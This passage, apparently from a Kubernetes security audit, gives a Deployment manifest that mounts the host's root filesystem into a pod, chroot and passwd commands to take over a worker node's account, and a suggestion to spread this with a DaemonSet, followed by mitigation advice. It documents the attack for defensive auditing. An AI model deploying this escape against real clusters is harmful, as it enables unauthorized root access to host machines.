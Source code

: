 ```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: testpod-deployment
  labels:
    app: testpod
spec:
  replicas: 1
  selector:
    matchLabels:
      app: testpod
  template:
    metadata:
      labels:
        app: testpod
    spec:
      containers:
      - name: testpod
        image: gcr.io/kuberntest/kubeaudit:latest
        volumeMounts:
        - mountPath: /root
          name: rooten
      volumes:
      - name: rooten
        hostPath:
          path: /
```

Now you can just use chroot and change the password of a user, and then ssh into the node worker with that user.

```
cd /root
chroot /root /bin/bash
passwd <someuser> 
```

In order to perform this attack against all the node-workers it is posssible to deploy a DaemonSet. A DaemonSet is a workload that ensures that a Pod is run on all worker nodes. If new worker nodes are added to the cluster the DaemonSet will ensure that each has the specified pod running on it. It can be sueful if you want to run a logs collection daemon on all nodes, or a monitoring daemon.
Those pods usually mount the nodes log directory to the pod.
This can be used to ensure that out malicious pod available on all worker nodes.

**Recommendation**

You can create a PodSecurityPolicy that disallows pods from mounting the root directory from the Host.

You can also create a network policy that disallows outgoing traffic, thus preventing reverse shells a bit.

- [ ] Check if running Kubelet on master node
